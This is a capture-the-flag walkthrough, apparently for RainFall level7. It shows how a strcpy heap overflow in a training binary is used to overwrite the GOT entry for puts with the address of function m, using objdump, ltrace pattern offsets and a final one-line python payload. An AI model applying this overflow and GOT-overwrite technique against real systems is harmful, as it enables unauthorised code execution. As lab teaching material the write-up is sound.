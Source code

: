 Like the previous level before we start by opening the file in [dogbolt](https://dogbolt.org/).

Here we can see that it use `malloc` and `strcpy`. We know that `strcpy` is not secure so let's try to use it to call the `m` function.
Here is what we will try to do :
<img src="assets/malloc_schema.png">

After analyzing the code we see that `v5` is after `v6`
So with the first `strcpy`  We will try to overflow on `v5` to overwrite the address of the second `strcpy` destination.
In the second `strcpy` we will write the address of `m` in the previous defined destination.
Ok we will try to put the address of `m` in a function call after `fgets` here `puts`

Let's find some addresses :

- address of `m` : 
```Shell
level7@RainFall:~$ objdump -t level7 
...
08049960 g     O .bss   00000050              c
080484f4 g     F .text  0000002d              m
08049940 g       *ABS*  00000000              __bss_start
...
```
`m` in little endian : \xf4\x84\x04\x08

- address of `puts` (in the GOT) : 

```Shell
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
in little endian : \x28\x99\x04\x08

Now let's find the last thing (the offset). For this we will use ltrace with a [pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator) and check what do we have at the second `strcpy` destination:
```Shell
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag AAAA
__libc_start_main(0x8048521, 3, 0xbffff724, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                        = 0x0804a008
malloc(8)                                                                                        = 0x0804a018
malloc(8)                                                                                        = 0x0804a028
malloc(8)                                                                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                                        = 0x0804a018
strcpy(0x37614136, "AAAA" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Pattern used : `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5A`
Offset : 20

Everything put together, give us :
[padding to overflow][address of `puts`][address of `m`]
```Shell
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```